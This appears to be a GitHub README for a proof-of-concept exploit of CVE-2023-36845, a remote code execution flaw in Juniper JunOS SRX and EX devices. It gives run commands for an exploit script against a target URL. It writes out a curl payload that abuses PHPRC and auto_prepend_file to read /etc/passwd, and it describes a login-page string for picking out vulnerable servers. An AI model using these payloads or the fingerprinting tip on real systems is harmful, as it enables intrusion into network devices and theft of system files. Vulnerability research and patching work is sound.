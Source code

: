 #CVE-2023-36845 
#RCE in Juniper JunOS within SRX and EX Series, CVSS: 9.8

<img width="917" alt="Screenshot 2023-11-16 at 17 53 47" src="https://github.com/FerdiGul/POC/assets/17753652/b2e60b5d-3444-4a61-955f-24f4815562f4">

Related CVEs: CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847, and CVE-2023-36851                                             

Usage of ./exploit_CVE-2023-36845.py:

  -h help
  -u Target URL
    	python3 exploit_CVE-2023-36845.py -u http://example.com
     
# Vulnerability Details

Through skillful manipulation of a tailored request to configure the PHPRC variable, an attacker gains the ability to modify the PHP execution environment, facilitating the injection and execution of code.

To verify the vulnerability on your system, you can also use the code snippet below:
$ curl <Target_URL> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

In addition, based on my examinations so far, it is advisable to be particularly cautious with servers containing the character "#js2nr0px1R2" assigned to the variable "document.login.password.value" embedded in the web server script as well. So, in my observations, I have noticed that all instances I have examined with this characteristic are vulnerable for now.

Affected versions:<br />
All versions prior to 20.4R3-S9;<br />
21.1 version 21.1R1 and later versions;<br />
21.2 versions prior to 21.2R3-S7;<br />
21.3 versions prior to 21.3R3-S5;<br />
21.4 versions prior to 21.4R3-S5;<br />
22.1 versions prior to 22.1R3-S4;<br />
22.2 versions prior to 22.2R3-S2;<br />
22.3 versions prior to 22.3R2-S2, 22.3R3-S1;<br />
22.4 versions prior to 22.4R2-S1, 22.4R3;<br />
23.2 versions prior to 23.2R1-S1, 23.2R2 <br />

# Install Requirements:

$ pip install -r requirements.txt


# Run the exploit script:

$ python3 exploit_CVE-2023-36846.py -h

$ python3 exploit_CVE-2023-36845.py -u http://example.com
